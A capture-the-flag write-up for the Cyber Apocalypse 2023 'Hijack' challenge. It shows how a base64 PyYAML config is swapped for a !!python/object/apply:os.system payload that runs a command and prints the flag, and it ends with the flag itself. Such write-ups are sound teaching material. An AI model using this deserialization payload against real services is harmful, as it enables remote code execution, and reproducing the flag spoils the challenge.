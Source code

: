 # Cyber Apocalypse 2023

## Hijack

> The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?
>
>  Author: N/A
>

Tags: _misc_

## Solution
When connecting to the container we are presented with an small UI:
```
$ nc 138.68.162.218 32738

<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
>
```

First thing is to test what we can do. Create config let's us enter some values and returns the configuration.

```
> 1

- Creating new config -
Temperature units (F/C/K): F
Propulsion Components Target Temperature : 1
Solar Array Target Temperature : 1
1Infrared Spectrometers Target Temperature :
Auto Calibration (ON/OFF) : on

Serialized config: ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxJywgYXV0b19jYWxpYnJhdGlvbjogJ29uJywKICBwcm9wdWxzaW9uX3RlbXA6ICcxJywgc29sYXJfYXJyYXlfdGVtcDogJzEnLCB1bml0czogRn0K
Uploading to ship...
```

When decoding the base64 string we get some PyYaml.
```
$ echo "ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxJywgYXV0b19jYWxpYnJhdGlvbjogJ29uJywKICBwcm9wdWxzaW9uX3RlbXA6ICcxJywgc29sYXJfYXJyYXlfdGVtcDogJzEnLCB1bml0czogRn0K" | base64 -d
!!python/object:__main__.Config {IR_spectrometer_temp: '1', auto_calibration: 'on',
  propulsion_temp: '1', solar_array_temp: '1', units: F}
```

That looks interesting since we can probably pack our own payload into it.

```
echo -n '!!python/object/apply:os.system ["cat flag.txt"]' | base64
ISFweXRob24vb2JqZWN0L2FwcGx5Om9zLnN5c3RlbSBbImNhdCBmbGFnLnR4dCJd
```

And sure enough, when uploading the payload...
```
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 2

Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5Om9zLnN5c3RlbSBbImNhdCBmbGFnLnR4dCJd
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
** Success **
Uploading to ship...
```

... we are presented with the flag `HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`.